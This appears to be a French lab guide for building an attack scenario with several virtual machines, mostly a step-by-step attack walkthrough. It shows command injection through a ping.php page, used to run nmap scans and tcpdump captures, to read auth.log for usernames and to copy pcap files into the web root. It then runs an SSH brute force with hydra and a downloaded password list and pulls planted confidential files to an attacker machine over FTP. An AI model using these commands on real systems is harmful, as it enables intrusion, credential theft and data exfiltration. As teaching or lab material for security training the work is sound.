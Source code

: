 ## serveurs / VM :

### www : 
- à installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y apache`  
`sudo apt-get install –y php7  ` 
- avec fichier :
    - ping.php 
    - logs.php
### poste :
- à installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y iptables`  
`sudo apt-get install -y openssh-server`



#### pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y wireshark`  
`sudo apt-get install -y tcpdump`  
- Mais aussi il faut installer ces paquets :
    - ##### partie client FTP :
    `sudo apt-get install -y filezilla`  
    `sudo apt-get install -y ftp`  
    `sudo apt-get install -y sleuthkit`   
    
    - ##### partie client SSH :
    
    `sudo apt-get install -y ssh`  

#### Serveur ftp-pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y vsftpd` 

#### Serveur ssh-pirate :
- À installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y openssh-server`


#### Serveur cc-pirate :
- À installer :  
`sudo apt-get update -y`  



### depuis www
A6 )

le pirate va sur la page $ip_www/ping.php

```php
; sudo history ; // historique des commandes

; sudo apt-get install -y nmap ; // installation avec yes

; sudo apt-get install tcpdump -y && sudo tcpdump --interface any -c 400  -w data.pcap ;  // s'arrete après 400 paquets

; ip a ; //note l'adresse réseau 192.168.0.56

: nmap -T4 -sP 192.168.0.0/24 | grep for ; // scanne le réseau local de www

// tu notes l'adresse IP qui est différente de www sauf Routeur

; sudo dpkg -l > res.txt && cat res.txt && rm -rf res.txt ; // listes des paquetages installés par rapport à l'indice A6
; sudo dpkg -s | grep "Package" ; // listes des paquetages installés par rapport à l'indice A6


; sudo dpkg -l | grep -i "tcpdump" ; //équiavlent de Wireshark en ligne de commandes s'il est installé alors des fichiers pcap seront générables


; sudo find / -name "*.pcap*" ; // recherche tous les fichiers .pcap lisible avec Wireshark du disque dur // noté les fichiers

 sudo tcpdump -h

-r file



sudo tcpdump -r /home/etudiant/data.pcap // affiche en ligne de commande l'ensemble de la capture réseau du fichier .pcap en gros wireshark juste en ligne de commande
 
//étape optionnelle




; sudo cp `sudo find / -name "*.pcap*"` /var/www/html/ ;


```

A7)

> [!WARNING]
> le pirate va sur la page $ip_www/ping.php
créer lorie sur poste de travail
sudo adduser lorie
rentrer le mot de passe
entrée à tout + y

avec un mot de passe dans la liste des 500 pires mot de passes
```php
; sudo cat auth.log ; // note le nom d'utilisateur du pc poste de travail
; sudo find / -name "auth.log" ; 

// filtrer sur le fichier pour avoir le nom d'utilisateur
; sudo cat auth.log | grep "postedetravail" | cut -f 4 -d ' ' | uniq ;
// bruteforce
; curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/500-worst-passwords.txt > 500-worst-passwords.txt ;
; hydra -l lorie -P 500-worst-passwords.txt $ip_postedetravail ssh ;





```
A8)

- poste de travail
echo "confidentiel" > draft_iphone30.docx 
echo "database data" > client_database.sql
sudo apt-get update -y && apt-get install -y vsftpd

docx=word


-  ftp-pirate -> poste :
<!-- curl ftp_transf.sh > ftp_transf.sh -->


ftp poste 
ls
mget *
quit

- serveur pirate ftp




liens   :
A6 )
https://www.makeuseof.com/tcpdump-examples/#:~:text=%20The%20tcpdump%20Output%20Format%20%201%20Timestamp,9%20Window%20size%2010%20Packet%20length%20More%20


A7)
https://www.kali-linux.fr/hacking/tutohydrabruteforce
